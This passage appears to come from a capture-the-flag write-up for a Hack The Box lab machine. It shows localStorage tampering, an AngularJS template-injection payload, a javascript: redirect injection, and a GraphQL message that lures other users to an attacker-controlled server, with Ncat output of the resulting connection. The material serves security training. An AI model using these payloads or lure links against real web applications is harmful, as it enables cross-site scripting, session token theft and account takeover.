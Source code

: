 ```javascript
        localStorage.setItem("lastname", i.data.login.lastname),
        window.location.replace("/dashboard"))
    }
    )
}
```

These values can be edited in the dev tools:

![][local-storage]

Which makes the "upload" tab appear:

![][upload-form]

But uploading requires an `adminToken`:

```json
{"result": "Invalid Token" }
```

The dashboard is using AngularJS, and the profile page is vulnerable to SSTI! The firstname / lastname are reflected on each page and make perfect targets:

```javascript
{{$on.constructor('alert(1)')()}}
```

## Getting admin credentials on the web portal

### Triggering the payload

Since we can message "Mark", there may be a way to gain his token. Let's poke Larry / Mark / James with a link to our server:

```json
{"variables":{"to":"larry@graph.htb","text":"yo Larry!\n<img src=\"http://graph.htb/?redirect=http://10.10.16.4:8888/unlock.html\">"},"query":"mutation ($to: String!, $text: String!) {\n  sendMessage(to: $to, text: $text) {\n    toUserName\n    fromUserName\n    text\n    to\n    from\n    __typename\n  }\n}"}
```

Which they actually follow:

```
Ncat: Connection from 10.10.11.157:51338.
/GET /%7B%7D HTTP/1.1
Host: 10.10.16.2:9999
```

But the page is opened from a context where the local storage is empty: `%7B%7D` is `{}`.

Next, let's try and inject JS directly into the redirect argument:

```
http://graph.htb/?redirect=javascript:alert(1)
```


[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html